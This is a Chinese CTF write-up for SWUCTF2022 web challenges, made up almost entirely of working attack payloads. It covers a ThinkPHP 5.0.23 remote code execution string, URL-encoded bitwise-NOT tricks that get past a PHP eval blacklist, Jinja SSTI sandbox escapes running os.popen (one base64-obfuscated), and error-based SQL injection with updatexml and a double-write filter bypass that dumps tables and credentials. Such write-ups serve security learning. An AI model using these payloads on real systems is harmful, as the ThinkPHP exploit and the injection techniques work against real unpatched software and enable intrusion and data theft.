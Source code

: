 ```yaml
---
title: SWUCTF2022 Web Writeups | CTF
date: 2022-05-24 21:56:32
tags:
  - SWUCTF
  - Writeup
categories:
  - CTF
cover: https://ovo.btwoa.com/img/cover/017cover.jpg
excerpt: >-
  SWU解题记录
author: btwoa
abbrlink: adc75ba0
---
```


> **本文部分信息可能已发生改变，请自行甄别**

# THINKPHP?

?s=captcha

![](https://ovo.btwoa.com/img/webp/202205242206767.webp)

V5.0.23

```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=env
```

![](https://ovo.btwoa.com/img/webp/202205242209220.webp)

# PHP? Eval? 

```
<?php
highlight_file(__FILE__);
error_reporting(0);
$blacklist = ["system", "ini_set", "exec", "scandir", "shell_exec", "proc_open", "error_log", "ini_alter", "ini_set", "pfsockopen", "readfile", "echo", "file_get_contents", "readlink", "symlink", "popen", "fopen", "file", "fpassthru"];
$blacklist = array_merge($blacklist, get_defined_functions()['internal']);
foreach($blacklist as $i){
    if(stristr($_GET[cmd], $i)!==false){
        die('hack');
    }
}
eval($_GET[cmd]);
?>
```

## URL编码取反绕过

```
php -r "var_dump(urlencode(~'system'));" => string(18) "%8C%86%8C%8B%9A%92"
php -r "var_dump(urlencode(~'cat /flag'));" => string(27) "%9C%9E%8B%DF%D0%99%93%9E%98"
```

```
?cmd=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%9E%98);
```

![](https://ovo.btwoa.com/img/webp/202205242250287.webp)

# Py?py

[SSTI/沙盒逃逸详细总结-CoCo1er](https://www.anquanke.com/post/id/188172#h3-15)

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('cat flag.txt').read()")}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2F0IGZsYWcudHh0JykucmVhZCgp".decode('base64'))}}
```

![](https://ovo.btwoa.com/img/webp/202205250017411.webp)

# SQL? no sqlmap

![](https://ovo.btwoa.com/img/webp/202205242255472.webp)

报错注入

```
'or(updatexml(1,concat(0x7e,version(),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2Cversion%28%29%2C0x7e%29%2C1%29%29%23
```

\~10.3.18-MariaDB\~

![](https://ovo.btwoa.com/img/webp/202205242301210.webp)

```
'or(updatexml(1,concat(0x7e,database(),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2Cdatabase%28%29%2C0x7e%29%2C1%29%29%23
```

\~vaalacat\~

![](https://ovo.btwoa.com/img/webp/202205242300745.webp)

```
'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28select%28group_concat%28table_name%29%29from%28information_schema.tables%29where%28table_schema%29like%28database%28%29%29%29%2C0x7e%29%2C1%29%29%23
```

![](https://ovo.btwoa.com/img/webp/202205242304240.webp)

过滤了 select 

双写绕过

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28table_name%29%29from%28information_schema.tables%29where%28table_schema%29like%28database%28%29%29%29%2C0x7e%29%2C1%29%29%23
```

\~vaala\~

![](https://ovo.btwoa.com/img/webp/202205242307692.webp)

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat(column_name))from(information_schema.columns)where(table_name)like('vaala')),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28column_name%29%29from%28information_schema.columns%29where%28table_name%29like%28%27vaala%27%29%29%2C0x7e%29%2C1%29%29%23
```

\~id,username,password\~

![](https://ovo.btwoa.com/img/webp/202205242310530.webp)

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat(username,'~',password))from(vaala)),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28username%2C%27~%27%2Cpassword%29%29from%28vaala%29%29%2C0x7e%29%2C1%29%29%23
```

'\~vaala\~flag{ccb506e8-afa0-46b8-b'

![](https://ovo.btwoa.com/img/webp/202205242312864.webp)

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat((right(password,30))))from(vaala)),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28%28right%28password%2C30%29%29%29%29from%28vaala%29%29%2C0x7e%29%2C1%29%29%23
```

![](https://ovo.btwoa.com/img/webp/202205242316572.webp)

'~8-afa0-46b8-b177-e3a2fc5592b6}~'

flag{ccb506e8-afa0-46b8-b177-e3a2fc5592b6}

